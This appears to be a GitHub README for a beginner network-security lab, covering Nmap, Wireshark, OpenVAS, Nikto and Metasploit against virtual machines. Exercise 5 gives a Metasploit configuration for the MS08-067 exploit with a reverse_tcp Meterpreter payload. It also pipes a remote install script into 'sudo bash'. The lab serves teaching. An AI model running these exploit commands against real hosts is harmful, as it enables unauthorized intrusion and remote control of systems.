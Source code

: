 # Network-Assessment-Detecting-Vulnerabilities-in-Network-Configurations

## Introduction
Network security is crucial for protecting an organization's data and resources from unauthorized access and cyber threats. This project will guide you through a basic network security assessment, focusing on identifying common vulnerabilities in network configurations. You will use various tools to scan, analyze, and secure your network.

## Pre-requisites
- Basic understanding of networking concepts (IP addresses, subnets, routers, etc.)
- Familiarity with the Linux command line
- A computer with a Linux operating system (preferably Ubuntu)
- Internet connection to download necessary tools

## Lab Setup and Tools
- **Lab Environment**: A virtualized network setup using VirtualBox or VMware with at least two virtual machines (one as a target and one as an attacker).
- **Tools**: 
  - Nmap
  - Wireshark
  - OpenVAS
  - Nikto
  - Metasploit

## Exercises

### Exercise 1: Network Scanning with Nmap
**Objective**: Identify live hosts and open ports on the target network.

**Steps**:
1. **Install Nmap**:
    ```sh
    sudo apt-get update
    sudo apt-get install nmap
    ```

2. **Scan the Network**:
    ```sh
    nmap -sn 192.168.1.0/24
    ```
   - This command performs a ping scan to identify live hosts.

3. **Identify Open Ports**:
    ```sh
    nmap -sS 192.168.1.10
    ```
   - Replace `192.168.1.10` with the IP address of a live host found in the previous step.

**Expected Output**:
- List of live hosts in the network.
- Open ports on the specified host.

### Exercise 2: Traffic Analysis with Wireshark
**Objective**: Capture and analyze network traffic to identify potential security issues.

**Steps**:
1. **Install Wireshark**:
    ```sh
    sudo apt-get install wireshark
    ```

2. **Capture Network Traffic**:
    - Open Wireshark.
    - Select the network interface to capture traffic.
    - Click on the "Start" button to begin capturing packets.

3. **Analyze Captured Traffic**:
    - Look for suspicious traffic such as repeated requests, unusual protocols, or large data transfers.

**Expected Output**:
- Capture file with network traffic data.
- Identification of any suspicious traffic patterns.

### Exercise 3: Vulnerability Scanning with OpenVAS
**Objective**: Perform a vulnerability scan on the target network to identify known vulnerabilities.

**Steps**:
1. **Install OpenVAS**:
    ```sh
    sudo apt-get install openvas
    sudo openvas-setup
    ```

2. **Configure and Start OpenVAS**:
    - Access the OpenVAS web interface (usually at `https://localhost:9392`).
    - Login with the admin credentials created during setup.

3. **Run a Vulnerability Scan**:
    - Create a new scan task.
    - Set the target IP address range.
    - Start the scan and wait for it to complete.

**Expected Output**:
- Report detailing identified vulnerabilities and their severity.

### Exercise 4: Web Server Assessment with Nikto
**Objective**: Assess a web server for common vulnerabilities using Nikto.

**Steps**:
1. **Install Nikto**:
    ```sh
    sudo apt-get install nikto
    ```

2. **Scan the Web Server**:
    ```sh
    nikto -h http://192.168.1.10
    ```
   - Replace `192.168.1.10` with the IP address of the target web server.

**Expected Output**:
- Report detailing potential vulnerabilities, misconfigurations, and other issues with the web server.

### Exercise 5: Exploitation Testing with Metasploit
**Objective**: Use Metasploit to exploit a vulnerability identified in previous exercises.

**Steps**:
1. **Install Metasploit**:
    ```sh
    curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/scripts/msfupdate | sudo bash
    ```

2. **Launch Metasploit Console**:
    ```sh
    msfconsole
    ```

3. **Select and Configure an Exploit**:
    ```sh
    use exploit/windows/smb/ms08_067_netapi
    set RHOST 192.168.1.10
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.1.20
    run
    ```
   - Replace `192.168.1.10` with the target IP address.
   - Replace `192.168.1.20` with the attacker's IP address.

**Expected Output**:
- Successful exploitation will open a Meterpreter session on the target machine.

## Conclusion
By completing these exercises, you have learned how to identify and assess common network security vulnerabilities using various tools. This knowledge is fundamental for performing more advanced security assessments and protecting network infrastructures.
